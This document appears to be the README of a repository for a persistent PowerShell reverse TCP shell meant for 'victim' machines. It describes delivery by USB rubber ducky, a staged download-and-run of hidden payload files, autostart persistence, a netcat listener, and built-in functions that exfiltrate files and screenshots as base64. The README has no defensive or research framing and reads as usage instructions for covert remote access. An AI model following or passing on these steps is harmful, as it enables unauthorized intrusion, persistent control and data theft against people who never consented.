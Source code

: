 Persisting reverse TCP shell in PowerShell
==========================================

**This repo contains a staged reverse TCP shell with some select utils. The shell is run on every startup after installation, and can be connected to with for example netcat.**

## Features
* Simple execution, for exemplewith a USB rubber ducky
* Persists even when victim machine is rebooted
* Built-in functions so far include:
  * File transfer from victim machine.
  * Taking screenshots from victim machine and transfering the image
  * One function to remove the shell from the victim.

## Usage
### Preparation
First, the listener address and port must be configured in "runner.ps1" (See comment on line 1 of said file). The file server address is then configured in "loader.txt" (See comment on line 1 of said file). The "runner.ps1" file must then be served on a file server accessible from the host machine, on port 80. A simple, but relatively insecure way of doing this is with a python simple HTTP server. With python 2.x, this is achieved with 
```
sudo python -m SimpleHTTPServer 80
```
and with python 3.x:
```
sudo python3 -m http.server 80
```

### Stage 1
To run stage 1, follow the instructions on line 1 of "loader.txt". This will download and run "payload.ps1" from the server. A powershell window will be opened, but this should disappear almost immeadiately. The script in "payload.ps1" now creates a file "pspayload.ps1" in the user's home directory and a file "runner.bat" in the user's startup directory. Both of these are hidden. Subsequently, "runner.bat" is executed, launching stage 2.

### Stage 2
Stage 2 is run automatically, and the victim is now, every 10 seconds trying to establish a TCP connection to the listener machine. One way to receive this connection is with netcat:
```
nc -l YOUR_LISTENER_PORT
```
After a maximum of 10 seconds you should be greeted by the victim machine. You now have a powershell as the user that was logged on to the victim when stage 1 was run. Note that this user must be logged on to the victim machine while the reverse shell is utilized.


## Documentation
### Built-in functions
* `rm-all`: Removes the "pspayload.ps1" and "psrunner.bat" files from the victim, and kills the powershell process.
* `transfer(<absolute path>)`: Converts the file pointed to by the `<absolute path>` to a base64 string, and echoes it over TCP. The file-string is preceded by the line "FILE_START" and followed by the line "FILE_END".
* `screenshot`: Takes a screenshot of the victim machine, and then transfers the image as a `.png` using `transfer`.

### Other utilities
* `./decodeFile.sh <path>`: Extracts and decodes base64 file-strings from a file, and creates a new file with the decoded data. The input file (given from the `<path>` parameter) can contain any number of base64 strings, as long as they are of the format generated by the `transfer` function (preceded by the line "FILE_START" and followed by the line "FILE_END"). All other text is ignored. The output from each string is saved in a file named `file_n.out`, where `n` is the enumerated postition of the file-string in the input file.
	* One way of using this to get a file from the reverse shell is as follows:
		1. `nc -l YOUR_LISTENER_PORT | tee ./shell_output` - This pipes all output from the shell to the file `shell_output`, as well as printing it to stdout.
		2. When the shell is open, use the built-in `transfer` function with the desired file(s) on the victim machine.
		3. When the base64 string has stopped printing, exit the shell by typing `exit` or pressing `ctrl + c`.
		4. Then, use `./decodeFile.sh ./shell_output`, and your file(s) should appear in the same directory.
